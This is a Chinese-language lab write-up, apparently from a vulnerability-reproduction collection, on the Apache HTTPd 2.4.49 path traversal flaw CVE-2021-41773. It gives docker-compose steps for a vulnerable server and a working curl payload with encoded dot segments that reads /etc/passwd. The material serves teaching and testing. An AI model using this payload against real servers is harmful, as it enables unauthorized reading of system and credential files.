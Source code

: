 # Apache HTTPd 2.4.49 路径穿越漏洞（CVE-2021-41773）

Apache HTTPd是Apache基金会开源的一款流行的HTTP服务器。在其2.4.49版本中，引入了一个路径穿越漏洞，满足下面两个条件的Apache服务器将会受到影响：

- 版本等于2.4.49
- 穿越的目录允许被访问，比如配置了`<Directory />Require all granted</Directory>`。（默认情况下是不允许的）

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码。

参考链接：

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/ptswarm/status/1445376079548624899
- https://twitter.com/HackerGautam/status/1445412108863041544

## 漏洞环境

执行如下命令编译及运行一个存在漏洞的Apache HTTPd 2.4.49版本服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Apache默认的`It works!`页面。

## 漏洞利用

使用如下CURL命令来发送Payload：

```
curl -v --path-as-is http://your-ip:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

可见，成功读取到`/etc/passwd`：

![](1.png)
